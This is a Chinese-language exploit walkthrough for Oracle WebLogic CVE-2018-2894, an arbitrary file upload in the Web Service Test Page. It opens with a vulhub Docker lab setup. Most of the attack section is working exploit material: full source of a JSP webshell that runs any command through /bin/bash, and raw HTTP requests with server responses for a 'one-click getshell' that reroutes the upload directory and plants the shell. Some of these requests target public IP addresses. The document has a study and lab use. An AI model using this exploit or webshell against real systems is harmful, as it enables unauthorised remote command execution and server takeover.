









# Weblogic CVE-2018-2894

CVE-2018-2894

## 0x01 前言


Oracle 7月更新中，修复了Weblogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page 在“生产模式”下默认不开启，所以该漏洞有一定限制，

利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。

## 0x02 漏洞环境
```
Ubuntu 16.04
https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2018-2894/
```

执行如下命令，启动weblogic 12.2.1.3：

`docker-compose up -d`

环境启动后，访问http://your-ip:7001/console，即可看到后台登录页面。

执行docker-compose logs | grep password可查看管理员密码，管理员用户名为weblogic。


登录后台页面



点击base_domain的配置，在“高级”中开启“启用 Web 服务测试页”选项：



## 0x03 启动web测试页面，上传木马

默认工作路径：`/u01/oracle/user_projects/domains/base_domain/tmp/WSTestPageWorkDir`



如果不更改，shell会上传到

`/u01/oracle/user_projects/domains/base_domain/tmp/WSTestPageWorkDir/config/keystore/` 目录下面，访问会是404，还要登陆后wls_utc才能访问(`http://47.52.239.99:7001/ws_utc/login.do`)

所以，为了避免诸多限制，需更改路径为

`/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css`

静态文件css目录，访问这个目录是无需权限的



然后点击‘安全’ -> 添加，然后上传文件webshell：



### cmd.jsp



```
<%@ page import="java.util.*,java.io.*,java.net.*"%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
        Process p = Runtime.getRuntime().exec("/bin/bash -c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML>

```
上传的文件名为：时间戳 + 下划线 + 上传的文件名名称

然后再浏览器访问

http://47.52.239.99:7001/ws_utc/css/config/keystore/1532055866654_cmd.jsp



获取当前工做路径



一键getshell脚本



`http://10.10.20.100:7001//ws_utc/resources/setting/options`

```
POST //ws_utc/resources/setting/options HTTP/1.1
Host: 10.10.20.100:7001
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded
Content-Length: 242

BasicConfigOptions.proxyHost=&BasicConfigOptions.workDir=%2Fu01%2Foracle%2Fuser_projects%2Fdomains%2Fbase_domain%2Fservers%2FAdminServer%2Ftmp%2F_WL_internal%2Fbea_wls_internal%2F9j4dqk%2Fwar&setting_id=general&BasicConfigOptions.proxyPort=80
```

```
HTTP/1.1 200 OK
Connection: close
Date: Wed, 11 Sep 2019 03:44:45 GMT
Content-Length: 102
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><result><state>ok</state><desc>Save successfully</desc></result>
```

`http://10.10.20.100:7001//ws_utc/resources/setting/keystore`

```
POST //ws_utc/resources/setting/keystore HTTP/1.1
Host: 10.10.20.100:7001
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
Content-Length: 1276
Content-Type: multipart/form-data; boundary=15c7827fa05d93b814d5a39fe1c55bcb

--15c7827fa05d93b814d5a39fe1c55bcb
Content-Disposition: form-data; name="ks_filename"; filename="shaoyu.jsp"


<%@ page import="java.util.*,java.io.*,java.net.*"%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send Command">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
        Process p = Runtime.getRuntime().exec("/bin/bash -c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML>

--15c7827fa05d93b814d5a39fe1c55bcb
Content-Disposition: form-data; name="ks_password_front"; filename="ks_password_front"

360sglab
--15c7827fa05d93b814d5a39fe1c55bcb
Content-Disposition: form-data; name="ks_password_changed"; filename="ks_password_changed"

true
--15c7827fa05d93b814d5a39fe1c55bcb
Content-Disposition: form-data; name="ks_edit_mode"; filename="ks_edit_mode"

false
--15c7827fa05d93b814d5a39fe1c55bcb--

```
```
HTTP/1.1 200 OK
Connection: close
Date: Wed, 11 Sep 2019 03:44:45 GMT
Content-Length: 294
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><setting id="security"><section name="key_store_list"><options xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="securityOptions"><keyStoreItem><id>1568173485782</id><keyStore>shaoyu.jsp</keyStore></keyStoreItem></options></section></setting>
```

#### webshell

`http://10.10.20.100:7001//bea_wls_internal/config/keystore/1568173485782_shaoyu.jsp`

## 0x04   参考链接
```
 http://www.oracle.com/technetwork/security-advisory/cpujul2018-4258247.html
 https://mp.weixin.qq.com/s/y5JGmM-aNaHcs_6P9a-gRQ
 https://xz.aliyun.com/t/2458
 https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2018-2894/README.md
```

